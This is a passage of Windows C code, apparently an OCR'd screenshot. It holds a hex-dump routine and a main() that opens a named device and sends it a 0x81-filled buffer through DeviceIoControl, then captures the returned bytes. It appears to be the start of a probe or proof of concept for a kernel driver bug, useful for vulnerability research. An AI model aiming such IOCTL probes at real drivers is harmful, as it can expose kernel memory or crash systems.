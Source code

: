 ```c
    for (i = 0; i < size; i += 16) {
        printf("%08zx  ", i);

        for (j = 0; j < 16; ++j) {
            if (i + j < size) {
                printf("%02x ", byteData[i + j]);
            } else {
                printf("   ");
            }
        }

        printf(" |");
        for (j = 0; j < 16; ++j) {
            if (i + j < size) {
                unsigned char c = byteData[i + j];
                if (c >= 32 && c <= 126) {
                    printf("%c", c);
                } else {
                    printf(".");
                }
            }
        }
        printf("|\n");
    }
}

int main()
{
    HANDLE hDevice = CreateFileW(DeviceName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[X] Failed to open device. Error: %ld\n", GetLastError());
        return 1;
    }

    printf("[!] Success open device");

    size_t* inputbuf = (size_t*)calloc(1, 0x100);

    if (inputbuf == NULL) {
        printf("[X] Memory allocation failed\n");
        CloseHandle(hDevice);
        return 1;
    }

    memset(inputbuf, 0x81, 0x100);

    char outputbuf[0x100] = { 0 };
    
    DWORD bytesReturned = 0;

    BOOL result = DeviceIoControl(
        hDevice,
        DeVioctlCode,
        inputbuf,
        0x100,
        outputbuf,
        sizeof(outputbuf),
        &bytesReturned,
        NULL
    );

```